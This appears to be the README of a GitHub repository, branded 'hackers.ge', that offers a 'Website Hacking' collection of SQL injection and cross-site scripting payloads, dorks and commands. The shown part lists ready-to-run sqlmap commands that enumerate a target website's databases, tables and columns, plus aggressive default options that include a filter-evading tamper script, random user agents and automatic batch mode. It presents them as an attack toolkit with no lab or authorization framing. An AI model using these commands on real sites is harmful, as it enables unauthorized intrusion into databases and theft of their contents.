 <p align="center"><img width="728" height="90" src="https://media.giphy.com/media/NcSRM70PbxRbR0PMZJ/giphy.gif"> <br> <b> <a href="https://hackers.ge"> H A C K E R S

# <p align="center"><img src="https://img.shields.io/badge/SQL-Injection-critical"></p> SQL Injection, Cross-Site Scripting, Payloads, Dorks, Commands & Lists []  Website Hacking © 2020 - 2022 Collections ![Twitter URL](https://img.shields.io/twitter/url?label=Twitter&style=social&url=https%3A%2F%2Ftwitter%2Fxetaguridimitri)

### Default SQL Injection Commands

sqlmap -u 'Website' --dbs

sqlmap -u 'Website' --dbms='BaseName' -D name.db --tables

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables --columns

sqlmap -u 'Website' --dbms='BaseName' -D name.db -T name.tables -C name.columns

Default CMD | --random-agent --level=5 --risk=3 --tamper=space2comment --anwser="follow" --batch --threads=10 --beep

